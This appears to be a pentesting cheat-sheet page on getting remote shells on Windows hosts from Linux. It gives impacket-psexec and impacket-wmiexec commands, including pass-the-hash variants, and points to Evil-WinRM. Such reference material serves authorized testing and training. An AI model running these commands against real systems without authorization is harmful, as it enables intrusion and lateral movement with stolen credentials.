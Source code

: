 ```yaml
---
title: Windows Remote Code Execution from Linux
description: If we have credentials for target Windows system, we can execute commands from Linux machine.
tags:
    - RCE
    - Windows
refs:
date: 2023-02-08
draft: false
---
```


## Getting into an Interactive Shell

### Impacket PsExec

PsExec gives us an interactive shell on the Windows host.

```sh
impacket-psexec username:password@<target-ip>
# Pass the Hashes
impacket-psexec -hashes abcdef0123456789abcdef0123456789:c2597747aa5e43022a3a3049a3c3b09d username@10.0.0.1
```

### Impacket WmiExec

WmiExec uses Windows Management Instrumentation (WMI) to give us an interactive shell on the Windows host.

```sh
impacket-wmiexec example.local/username@10.0.0.1
# Pass the Hashes
impacket-wmiexec -hashes abcdef0123456789abcdef0123456789:c2597747aa5e43022a3a3049a3c3b09d example.local/username@10.0.0.1
```

### Evil-WinRM

Also we can use **[Evil-WinRM](/exploit/windows/winrm-pentesting/#evil-winrm)** if the target Windows host uses/opens the **WinRM (Windows Remote Management)**.